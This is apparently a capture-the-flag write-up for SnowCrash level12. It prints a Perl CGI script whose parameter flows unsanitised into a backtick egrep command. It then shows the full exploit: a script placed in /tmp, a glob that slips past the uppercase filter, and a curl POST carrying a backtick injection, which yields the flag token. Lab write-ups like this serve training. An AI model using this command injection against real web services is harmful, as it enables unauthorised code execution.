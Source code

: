 # level12

- We login as user level11.
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- A perl script has been left to us, let's `cat level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

- The script appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on localhost through 4646. It takes two parameters that are passed to the `t()` function, the return of this latter is used to `print()` a message accordingly.


- The `t()` function will change all lowercase characters contained in its first parameter to uppercase, then it will erase any character following a space. The resulting string (`$xx`) will be used by `egrep "^$xx" /tmp/xd 2>&1`.


- Because of `$xx =~ tr/a-z/A-Z/;` we cannot directly send `x=;getflag>/tmp/level12.flag` because all our characters will be transformed into uppercase, so:
```
level12@SnowCrash:~$ ss -tunlp | grep 4646
tcp    LISTEN     0      128                   :::4646                 :::*
```

```
level12@SnowCrash:~$ echo "getflag > /tmp/level12.flag" > /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ curl -X POST -d "x=\`/*/EXPLOIT\`" http://127.0.0.1:4646
```

```
level12@SnowCrash:~cat /tmp/level12.flag46
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

```
level12@SnowCrash:~$ su level13
Password:g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```
